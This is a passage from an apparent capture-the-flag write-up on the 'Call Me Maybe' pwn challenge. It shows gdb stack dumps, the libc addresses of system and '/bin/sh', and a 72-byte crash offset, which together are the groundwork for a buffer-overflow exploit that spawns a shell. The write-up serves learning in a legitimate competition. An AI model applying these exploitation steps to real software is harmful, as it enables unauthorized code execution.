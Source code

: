 ```
0x7fffffffe510:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe520:	0x00000000	0x00000000	0x00000001	0x00000000
0x7fffffffe530:	0xffffe598	0x00007fff	0xffffe5a8	0x00007fff
0x7fffffffe540:	0xf7ffe1e0	0x00007fff	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x004005c0	0x00000000
0x7fffffffe560:	0xffffe590	0x00007fff	0x00000000	0x00000000
0x7fffffffe570:	0x00000000	0x00000000	0x004005ea	0x00000000
0x7fffffffe580:	0xffffe588	0x00007fff	0x0000001c	0x00000000
0x7fffffffe590:	0x00000001	0x00000000	0xffffe870	0x00007fff
(gdb) x/64wx $rsp
0x7fffffffe460:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe470:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe480:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe490:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe4a0:	0x00000000	0x00000000	0xf7dfeb25	0x00007fff
0x7fffffffe4b0:	0xffffe598	0x00007fff	0xf7fca000	0x00000001
0x7fffffffe4c0:	0x00400726	0x00000000	0xffffe859	0x00007fff
0x7fffffffe4d0:	0x00400810	0x00000000	0x1c62f7a2	0x3779657a
0x7fffffffe4e0:	0x004005c0	0x00000000	0x00000000	0x00000000
0x7fffffffe4f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe500:	0xd502f7a2	0xc8869a85	0xc9d6f7a2	0xc8868ac5
0x7fffffffe510:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe520:	0x00000000	0x00000000	0x00000001	0x00000000
0x7fffffffe530:	0xffffe598	0x00007fff	0xffffe5a8	0x00007fff
0x7fffffffe540:	0xf7ffe1e0	0x00007fff	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x004005c0	0x00000000
```

I also found the location of `system` and `"/bin/sh"` in case we need to use it
```
(gdb) print system
$1 = {<text variable, no debug info>} 0x7ffff7e21120 <system>
(gdb) find 0x7ffff7e21120, +999999999999, "/bin/sh"
0x7ffff7f63966
warning: Unable to access 16000 bytes of target memory at 0x7ffff7fa5fee, halting search.
1 pattern found.
```

#### Figuring out when it crashes

I bruteforced (by that I mean manually input) the amount of padding before the program crashes. which is (64+8) characters
```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /Solutions/Cyber Security/Capture the Flag Competitions/2021/Cyberthon 2021/Self-Directed Online Training/Pwn/Call Me Maybe/Given/callmemaybe
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
```